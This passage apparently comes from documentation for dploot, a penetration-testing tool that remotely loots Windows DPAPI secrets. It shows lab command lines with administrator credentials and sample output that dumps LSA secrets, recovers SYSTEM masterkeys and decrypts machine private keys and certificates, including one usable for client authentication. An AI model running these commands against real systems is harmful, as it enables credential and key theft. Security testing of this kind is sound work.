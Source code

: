 ```text
{c1027a5b-0dcc-4237-af05-19839a94c12f}:fda0c774f6a8ff189ef2759a151f2c6bcf6a4d46
{e1a73282-709b-4717-ace0-00eecb280fcc}:cdb4c86722b50cecf87cf683c6d727f36d760dba
{6fbe7c89-9810-4ce3-b841-f0f1dd8b46e6}:1fb57eb358ea26c617d39ce04c5feb613ab10b89
{750630e8-b603-4d43-941e-6f756073e511}:f9fd650d02a09e92069c54465455feeea12f0049

[*] Triage SYSTEM Vaults

[*] Found Vault Directory: \\192.168.56.14\C$\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

[VAULT_VPOL_KEYS]
Key1: 0x8a3dad10ce6ae44ba1700d1060cc28c4
Key2: 0x1514dd2c8f278ac517cf1ae09255aeaff62219a019bc21ac35321c040064b0b5
```

### machinecertificates

The **machinecertificates** command will get any machine private key file found and decrypt them with `-mkfile FILE` of one or more {GUID}:SHA1, otherwise dploot willdump DPAPI_SYSTEM LSA secret key. in order to decrypt any machine masterkeys, and then decrypt any found encrypted DPAPI private key blob.

It will also dump machine CAPI certificates blob with RemoteRegistry.

```text
$ dploot machinecertificates waza.local/Administrator:'Password!123'@192.168.57.5
[*] Connected to 192.168.57.5 as waza.local\Administrator (admin)
[*] Triage SYSTEM masterkeys

[*] Target system bootKey: 0x7d12d83df2060285163096f110c18535
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
[*] DPAPI_SYSTEM
[*] NL$KM
[*] Found SYSTEM system MasterKey: \\192.168.57.5\C$\Windows\System32\Microsoft\Protect\S-1-5-18\07e6e8d6-7eae-4780-9aac-641818ddd9bb
[*] Found SYSTEM system MasterKey: \\192.168.57.5\C$\Windows\System32\Microsoft\Protect\S-1-5-18\a87bcad8-5ed9-4f09-a9f7-34d77e20d0d4
[*] Found SYSTEM system MasterKey: \\192.168.57.5\C$\Windows\System32\Microsoft\Protect\S-1-5-18\d03a0e3b-b616-4a29-8795-9ca09960de35
[*] Found SYSTEM user MasterKey: \\192.168.57.5\C$\Windows\System32\Microsoft\Protect\S-1-5-18\User\69b3f620-eca1-45c1-a003-f1d0a8598c57
[*] Found SYSTEM user MasterKey: \\192.168.57.5\C$\Windows\System32\Microsoft\Protect\S-1-5-18\User\9a270191-3f43-46d1-9935-5892dca2a9a2
[*] Found SYSTEM user MasterKey: \\192.168.57.5\C$\Windows\System32\Microsoft\Protect\S-1-5-18\User\e85c4ab7-65d3-45df-9abe-829c2ead1c5f
{07e6e8d6-7eae-4780-9aac-641818ddd9bb}:ddb9fa17d4e9ab12[...]
{a87bcad8-5ed9-4f09-a9f7-34d77e20d0d4}:e4661cd36f07bb1f[...]
{d03a0e3b-b616-4a29-8795-9ca09960de35}:a45fdd01699bfbc5[...]
{69b3f620-eca1-45c1-a003-f1d0a8598c57}:2862216b21e96fa6[...]
{9a270191-3f43-46d1-9935-5892dca2a9a2}:d3cb43dd6645d26d[...]
{e85c4ab7-65d3-45df-9abe-829c2ead1c5f}:c2a118094fb7cf85[...]
[*] Found PrivateKey Blob: \\192.168.57.5\C$\ProgramData\Microsoft\Crypto\RSA\MachineKeys\18c2929b45da56e7c90a89c6640aa250_a14e72b0-8859-4206-8d30-211c4f03281b
[*] Found match between 1337972D3978595AF8AFF9FD62864CA9BB956308 certificate and 18c2929b45da56e7c90a89c6640aa250_a14e72b0-8859-4206-8d30-211c4f03281b private key !

Issuer:			CN=waza-SRV01-CA,DC=waza,DC=local
Subject:		CN=DESKTOP-I60R2L6.waza.local
Valid Date:		2022-04-29 09:30:19
Expiry Date:		2023-04-29 09:30:19
Extended Key Usage:
	clientAuth (1.3.6.1.5.5.7.3.2)
	[!] Certificate is used for client auth!
```